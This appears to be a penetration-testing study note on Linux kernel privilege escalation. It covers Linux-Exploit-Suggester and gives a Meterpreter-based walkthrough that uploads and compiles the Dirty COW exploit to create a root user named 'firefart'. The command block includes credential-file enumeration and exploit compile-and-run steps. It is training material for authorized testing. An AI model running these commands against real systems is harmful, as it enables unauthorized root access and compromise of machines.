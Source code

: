 # A - Linux Kernel Exploits

### **Linux Kernel Exploitation**

* Kernel exploits on Linux will typically target vulnerabilities in the Linux kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.
* This process will differ based on the Kernel version and distribution being targeted and the kernel exploit being used.
* Privilege escalation on Linux systems will typically follow the following methodology:
  * Identifying kernel vulnerabilities.
  * Downloading, compiling and transferring kernel exploits onto the target system.

### **Tool & Environment**

* Linux-Exploit-Suggester - This tool is designed to assist in detecting security deficiencies for given Linux kernel/Linux-based machine. It assesses (using heuristics methods) the exposure of the given kernel on every publicly know Linux kernel exploit.
  * GitHub: [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)



## **Practical Demonstration**

After gaining initial foothold on the target, perform some system enumeration.

```bash
sysinfo #Returns system info
getuid #Return user you're currently logged in with
getprivs #Returns privilges available to current user
shell # switch to a shells session on target system.

/bin/bash -i #Elevate to a bash shell
groups www-data # list groups the user belongs to.
bash > cat /etc/passw #Returns all users available on the system.


# Elevating privileges.
# download the Linux-Exploit-Suggester tool.
# Upload LES tool into /tmp folder on target system.
upload <localPathToFile > les.sh

# open a shell session again
shell
/bin/bash -i
chmod +x les.sh # give it execution permission.
./les.sh # Execute the LES tool.
# we get many vuln results such as: dirtycow, dirtycow2, perf_swevent etc..
# when the OS version is specified in color "Yellow" means its vuln to the exploit.

#Check result of LES and choose a kernel exploit to use, then read it's documentation.
#Follow the documentation instructions (it's different from an exploit to another but usually, download -> compile -> upload -> execute).
#You may need to compile the exploit code directly onto the target machine.


# in our case we will be using the "dirtycow" exploit.
# step 1
# download the C code from exploitdb.com.

# step 2
# Compilation process.
# download the "gcc" compiler with "sudo apt-get install gcc".
gcc -pthread dirty.c -o dirty -lcrypt # cmd to compile the file.

# step 3
# upload the compiled file to the target, from the meterpreter session.
upload ~/Downloads/dirty
shell  # spawn a shell session.
/bin/bash -i
chmod +x dirty
./dirty password123
# and the exploit failed, so we have to compile it on the target PC.
# repeat same steps on the target PC.

# we then get a "firefart" user created with root privilege, we can switch to it.
# we can use ssh to the "firefart" user.
```



